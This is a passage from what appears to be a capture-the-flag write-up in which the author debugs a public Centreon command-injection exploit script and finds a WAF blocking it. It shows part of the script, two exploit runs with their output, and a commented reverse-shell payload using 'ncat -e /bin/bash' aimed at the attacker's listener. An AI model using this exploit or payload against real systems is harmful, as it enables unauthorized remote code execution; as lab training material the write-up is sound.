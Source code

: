             "submitC": "Save",
            "id": "1",
            "o": "c",
            "centreon_token": poller_token,
        }

        send_payload = request.post(poller_configuration_page, payload_info)
        print("[+] Injecting Done, triggering the payload")



There's a lot to not like about the way this exploit is written. The
payload relies on the insecure `nc` with `-e` being on the target, and
there's no error checking. I added a print statement just above the last
one to print the `send_payload.status_code`, and ran again:



    root@kali# ./centreon-exploit.py http://10.10.10.157/centreon/ admin password1 10.10.14.30 443
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 6e9b4561b4c05180b23c8d0b854ed7a0
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : 720954a0f1742c2428b9fc9c8c00a670
    [*] Payload inject status code: 403
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !



That's why it's failing. The injection POST is being blocked by the WAF.

I emptied out the payload line:



            # this value contains the payload , you can change it as you want
            #"nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
            "nagios_bin": "",



And ran again:



    root@kali# ./centreon-exploit.py http://10.10.10.157/centreon/ admin password1 10.10.14.30 443
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : fe57a7dc6569207997e51a35b33e7a4a
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : 4654f45a045a9fea5c86d690ae9f02bc
    [*] Payload inject status code: 200
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !



It was passed through. Obviously I didn't get code execution, but now I
have a clear task to find a payload that bypasses the WAF and returns a
shell.
